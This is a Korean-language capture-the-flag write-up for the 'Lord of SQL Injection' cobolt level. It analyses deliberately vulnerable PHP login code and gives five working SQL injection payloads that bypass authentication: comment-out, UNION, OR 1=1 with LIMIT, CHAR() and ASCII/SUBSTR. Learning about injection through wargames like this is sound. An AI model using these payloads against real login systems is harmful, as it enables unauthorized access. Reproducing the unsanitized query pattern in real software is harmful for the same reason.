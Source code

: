 # Lord of SQL Injection No.2 - cobolt

## 문제 출제 의도

SQL Injection을 통해 원하는 값을 select하도록 조작할 수 있는지 확인한다.

## 소스 코드 분석

cobolt 문제의 php 소스 코드는 다음과 같다.
```php
<?php
  include "./config.php"; 
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_cobolt where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id'] == 'admin') solve("cobolt");
  elseif($result['id']) echo "<h2>Hello {$result['id']}<br>You are not admin :(</h2>"; 
  highlight_file(__FILE__); 
?>
```
-----

```php
  $query = "select id from prob_cobolt where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id'] == 'admin') solve("cobolt");
  elseif($result['id']) echo "<h2>Hello {$result['id']}<br>You are not admin :(</h2>";
```
* 받은 id와 pw가 직접 쿼리에 들어간다. 이것으로 SQL Injection 공격이 가능하다는 것을 알 수 있다.

* 1번 문제와 거의 동일하며, 문제 풀이가 성공하는 조건은 '데이터베이스에서 받은 id에 "admin"이라는 값이 들어있음'이다.

-----

## Solution

1. admin 문자열 직접 삽입

    ```
    http://los.eagle-jump.org/cobolt_ee003e254d2fe4fa6cc9505f89e44620.php?id=admin'-- -
    ```
    ```sql
    select id from prob_cobolt where id='admin'-- -' and pw=md5('')
    ```

    이는 결국 $result['id']에 'admin'이 들어가도록 하므로 문제가 풀린다.

2. UNION 구문 이용

    ```
    http://los.eagle-jump.org/cobolt_ee003e254d2fe4fa6cc9505f89e44620.php?id=' union select 'admin'-- -
    ```
    ```sql
    select id from prob_cobolt where id='' union select 'admin'-- -' and pw=md5('')
    ```

    이는 결국 $result['id']에 'admin'이 들어가도록 하므로 문제가 풀린다.

3. LIMIT 구문 이용

    ```
    http://los.eagle-jump.org/cobolt_ee003e254d2fe4fa6cc9505f89e44620.php?id=' or 1=1-- -
    ```
    ```sql
    select id from prob_cobolt where id='' or 1=1-- -' and pw=md5('')
    ```

    이는 테이블의 모든 행을 불러오도록 조작하는 SQL Injection이다. 이를 수행하면 다음과 같은 문자열이 응답에 포함된다.

    ```
    Hello rubiya
    You are not admin :(
    ```
    이 문자열로 미루어 보아 테이블에 admin이라는 id를 가진 행이 있을 것임을 추측할 수 있다.

    또한 현재는 테이블의 rubiya라는 id를 가진 첫 번째 행이 들어가지만 $result['id']에 들어가는 행을 하나씩 당겨보는 것을 id가 admin인 행에 도달할 때까지 반복하면 문제가 풀릴 것임을 추측할 수 있다.

    ## LIMIT

    MySQL에는 SELECT절에 LIMIT이라는 구문을 이용하여 반환되는 행을 제한하는 기능이 있다.
    [MySQL Documentation](https://dev.mysql.com/doc/)에서 [SELECT절에 대한 문서](https://dev.mysql.com/doc/refman/5.7/en/select.html)를 찾아보면 다음과 같은 부분을 찾을 수 있다.
    
    ![limit](../images/limit.png)

    즉, SELECT 절의 마지막에 LIMIT 1,1 을 붙이면 테이블에서 조건에 맞는(WHERE 구문이 있으면) 행 중 첫 번째 행부터가 아닌 두 번째 행부터 하나의 행만 가져오게 된다.

    ```
    http://los.eagle-jump.org/cobolt_ee003e254d2fe4fa6cc9505f89e44620.php?id=' or 1=1 limit 1,1-- -
    ```
    ```sql
    select id from prob_cobolt where id='' or 1=1 limit 1,1-- -' and pw=md5('')
    ```

    즉 위 SQL Injection은 prob_cobolt 테이블의 2번째 행의 id가 admin이기 때문에 결국 $result['id']에 'admin'이 들어가도록 하므로 문제가 풀린다.

4. CHAR() 함수 및 ASCII 코드 활용

    ```
    http://los.eagle-jump.org/cobolt_ee003e254d2fe4fa6cc9505f89e44620.php?id=' or id=char(97, 100, 109, 105, 110)-- -
    ```
    ```sql
    select id from prob_cobolt where id='' or id=char(97, 100, 109, 105, 110)-- -' and pw=md5('')
    ```

    이는 ASCII에서 10진수 표기를 문자 표기로 바꿔주는 MySQL 함수인 CHAR를 이용하여 id가 admin인 행을 찾아 선택하도록 만든다.
    
    ASCII에서, 'a'=97, 'd'=100, 'm'=109, 'i'=105, 'n'=110이다.
    
    따라서 이는 $result['id']에 'admin'이 들어가도록 하므로 문제가 풀린다.

5. ASCII(), SUBSTR() 함수 및 ASCII 코드 활용

    ```
    http://los.eagle-jump.org/cobolt_ee003e254d2fe4fa6cc9505f89e44620.php?id=' or ascii(substr(id, 1, 1))=97-- -
    ```
    ```sql
    select id from prob_cobolt where id='' or ascii(substr(id, 1, 1))=97-- -' and pw=md5('')
    ```

    이는 ASCII에서 문자 표기자 10진수 표기로 바꿔주는 MySQL 함수인 ASCII를 이용하여 id가 a로 시작하는 행을 찾아 선택하도록 만든다.

    이번에는 운이 좋아 a로 시작하는 첫번째 행이 admin이었지만, 만약 안되면 1번째 글자가 a, 2번째 글자가 d, 3번째 글자가 m, 4번째 글자가 i, 5번째 글자가 n인 행을 찾도록 조작하면 된다.
    
    ASCII에서, 'a'=97이다.
    
    따라서 이는 $result['id']에 'admin'이 들어가도록 하므로 문제가 풀린다.